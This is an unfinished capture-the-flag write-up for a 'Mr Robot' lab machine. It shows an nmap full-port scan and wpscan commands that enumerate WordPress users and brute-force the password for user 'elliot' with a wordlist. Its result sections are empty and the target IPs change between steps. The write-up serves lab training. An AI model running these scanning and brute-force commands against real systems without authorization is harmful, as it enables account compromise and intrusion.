 # Mr Robot CTF

##### Written: 03/11/2021

##### IP Address: 10.10.7.125

======================

### What is key 1?

Let's start off with an **Nmap** scan on the target machine. We run the scan with standard scripts loaded and version enumeration enabled. We can also do a full scan on all ports.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.7.125
```

**Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that there are **two** ports:

**Port 22**: SSH server (closed)

**Port 80**: HTTP Web Server

<br>

Let's first take a look at the HTTP web page:

<img style="float: left;" src="screenshots/screenshot2.png">





```
wpscan --url 10.10.242.214 --enumerate u --users-list /home/fatalfuric/Downloads/fsocity.dic -t 50

wpscan --url http://10.10.90.145 -U elliot -P /usr/share/wordlists/rockyou.txt -o wpscan_password_result
```

**Results:**



